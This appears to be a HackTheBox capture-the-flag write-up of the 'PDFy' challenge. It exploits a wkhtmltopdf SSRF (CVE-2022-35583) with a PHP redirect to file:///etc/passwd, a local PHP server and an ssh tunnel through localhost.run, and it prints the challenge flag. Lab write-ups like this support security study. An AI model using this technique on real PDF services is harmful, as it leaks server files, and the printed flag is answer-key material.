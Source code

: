 ```yaml
---
layout: post
author: k0d14k
---
```


# HackTheBox - PDFy

---

Tags: `SSRF`, **`CVE-2022-35583`, `localhost.run`**

---

> Welcome to PDFy, the exciting challenge where you turn your favorite web pages into portable PDF documents! It's your chance to capture, share, and preserve the best of the internet with precision and creativity. Join us and transform the way we save and cherish web content! NOTE: Leak /etc/passwd to get the flag!
> 

In this HackTheBox challenge, We have a website used to dump a PDF based on an existing website:

![Untitled](Untitled.png)

We know that the flag is in the `/etc/passwd` file and when trying to generate a PDF for Google it works correctly.

Let’s see how the PDF request works:

![Untitled](Untitled%201.png)

The request gets a JSON with `url` as a single field and, if the conversion goes as expected a PDF name is returned. Then the PDF is stored in `/static/pdfs/[file name].pdf`.

After some tests, and get some errors as the following one:

![Untitled](Untitled%202.png)

I was sure about one thing: the PDF is made up using the wkhtmltopdf library.

Searching on Google I noticed that there is a CVE over this library: **[CVE-2022-35583](https://github.com/wkhtmltopdf/wkhtmltopdf/issues/5249)**

Then, looking for a PoC I found this useful guide: **[wkhtmltopdf SSRF](https://exploit-notes.hdks.org/exploit/web/security-risk/wkhtmltopdf-ssrf/).**

```php
<?php
  header("Location: file:///etc/passwd");
?>
```

```php
php -S 0.0.0.0:8081
```

```php
ssh -R 80:localhost:8081 nokey@localhost.run
```

![Untitled](Untitled%203.png)

---

## Flag: HTB{pdF_g3n3r4t1on_g03s_brrr!}